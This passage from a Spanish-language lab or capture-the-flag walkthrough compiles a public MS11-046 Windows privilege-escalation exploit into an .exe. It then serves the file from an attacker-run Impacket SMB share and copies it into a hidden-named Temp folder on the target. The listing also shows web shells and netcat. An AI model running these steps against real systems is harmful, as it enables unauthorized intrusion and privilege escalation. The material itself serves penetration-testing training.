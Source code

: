 ```bash
     - Windows 7 (SP0 and SP1) will BSOD on shutdown/reset
```
**OJO**: aquí la importancia de leer los Exploits para saber cómo funcionan o si es necesario configurarlos.

Entonces vamos a usar la herramienta **i686-w64-mingw32-gcc**, si estas usando **Kali Linux** ya la deberías tener instalada, sin embargo, aquí está el link del cómo pueden instalar dicha herramienta: 
* <a href="https://github.com/RUB-SysSec/WindowsVTV" target="_blank">Repositorio de RUB-SysSec: i686-w64-mingw32-vtv</a>

Vamos a convertir ese Exploit a un ejecutable **.exe**, recuerda que el Exploit se descargó con el nombre **40564.c**:
```bash
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
ls
40564.c  aspx_cmd.aspx  IIS_Shell.aspx  MS11-046.exe  nc.exe  shell.aspx  test.txt
```
Ahora que lo tenemos, ya podemos subirlo a la máquina.

Vamos a abrir un servidor con **Impacket** para poder subirlo. Hagamoslo por pasos:

* Abriendo **servidor SMB** con **impacket**:
```bash
smbserver.py smbFolder $(pwd)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

* Para subir el Exploit debemos ir al **directorio Temp**:
```batch
C:\Windows>cd /Windows/Temp
cd /Windows/Temp
C:\Windows\Temp>
```

* Crearemos un directorio para guardarlo ahí:
```batch
C:\Windows\Temp>mkdir AquiNoHayNingunExploit
mkdir AquiNoHayNingunExploit
C:\Windows\Temp>cd AquiNoHayNingunExploit
cd AquiNoHayNingunExploit
```

* Copiamos el Exploit:
```batch
C:\Windows\Temp\AquiNoHayNingunExploit>copy \\Tu_IP\smbFolder\MS11-046.exe MS11-046.exe                                            
copy \\10.10.14.12\smbFolder\MS11-046.exe MS11-046.exe
        1 file(s) copied
```
